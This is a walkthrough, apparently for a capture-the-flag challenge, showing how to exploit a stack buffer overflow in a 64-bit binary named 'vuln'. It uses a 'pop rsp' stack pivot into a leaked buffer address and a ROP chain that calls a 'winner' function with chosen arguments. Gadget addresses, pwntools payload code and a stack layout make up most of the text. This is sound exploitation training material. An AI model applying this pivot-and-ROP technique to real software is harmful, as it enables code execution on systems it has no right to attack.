

# Stack Pivot `pop rsp`

---

## 1. Vulnerability Background

The binary `vuln` contains a stack-based buffer overflow. It prints the address of a local buffer (`to: 0x7ff…`) and then reads user input into this buffer without proper bounds checking.

We know:

* Buffer size → 104 bytes from start of buffer up to saved return address (RIP).
* Binary is 64-bit (System V AMD64 calling convention).
* NX is enabled (we cannot execute shellcode directly), so we use **ROP**.
* Binary has a function `winner(int arg1, int arg2)` which we want to call with controlled arguments.

---

## 2. Important Gadgets

Using `ROPgadget` or `ROP(elf)` we found:

* **Stack pivot gadget**

  ```
  0x401225 : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
  ```

  This lets us set the stack pointer (`rsp`) to a location we control (our buffer).

* **Argument control gadgets**

  ```
  0x40122b : pop rdi ; ret         # controls arg1
  0x401229 : pop rsi ; pop r15 ; ret   # controls arg2
  ```

These match the **System V AMD64 calling convention**, where:

* `rdi` = first argument
* `rsi` = second argument

---

## 3. Strategy

Since the stack pivot gadget starts with `pop rsp`, we must provide a pointer to our **fake stack**. The program already leaks the buffer’s address, so we can use that.

### Steps

1. Overflow the buffer (104 bytes).
2. Overwrite saved RIP with the **pivot gadget** (`POP_CHAIN`).
3. Provide the leaked buffer address as the next qword (so `pop rsp` pivots into our buffer).
4. Inside the buffer, build a **fake ROP chain**:

   * Feed dummy values to satisfy `pop r13 ; pop r14 ; pop r15`.
   * Use `pop rdi ; ret` to set `rdi = 0xdeadbeef`.
   * Use `pop rsi ; pop r15 ; ret` to set `rsi = 0xdeadc0de`.
   * Finally return into `winner`.

---

## 4. Payload Construction

```python
payload = flat(
    0,                 # for pop r13
    0,                 # for pop r14
    0,                 # for pop r15
    POP_RDI,
    0xdeadbeef,        # arg1
    POP_RSI_R15,
    0xdeadc0de,        # arg2
    0,                 # r15 filler
    elf.sym['winner']  # call winner(rdi, rsi)
)
```

* This chain is our **fake stack**.
* We pad it to **104 bytes** so it fills the buffer entirely:

```python
payload = payload.ljust(104, b'A')
```

* Now overwrite the saved RIP with our pivot gadget, and append the `buffer` address (needed for `pop rsp`):

```python
payload += flat(
    POP_CHAIN,   # saved RIP
    buffer       # for pop rsp
)
```

---

## 5. Final Stack Layout

```
Buffer (104 bytes):
  buffer+0x00: 0              (-> r13)
  buffer+0x08: 0              (-> r14)
  buffer+0x10: 0              (-> r15)
  buffer+0x18: POP_RDI
  buffer+0x20: 0xdeadbeef     (-> rdi)
  buffer+0x28: POP_RSI_R15
  buffer+0x30: 0xdeadc0de     (-> rsi)
  buffer+0x38: 0              (-> r15)
  buffer+0x40: winner() addr
  buffer+0x48–0x67: 'A' padding

Saved RIP:
  0x401225 (pivot: pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret)

Next stack qword:
  buffer (address of our fake chain)
```

---

## 6. Execution Flow

1. Function `ret` → RIP = `POP_CHAIN`.
2. `pop rsp` → loads `rsp = buffer`.
   🎯 stack is now pivoted into our fake chain.
3. `pop r13 ; pop r14 ; pop r15` → consume first three qwords (zeros).
4. `ret` → RIP = buffer+0x18 = `POP_RDI`.
5. `pop rdi` → `rdi = 0xdeadbeef`.
   `ret` → RIP = buffer+0x28 = `POP_RSI_R15`.
6. `pop rsi` → `rsi = 0xdeadc0de`.
   `pop r15` → dummy.
   `ret` → RIP = buffer+0x40 = `winner`.
7. Execution enters `winner(0xdeadbeef, 0xdeadc0de)`.

---


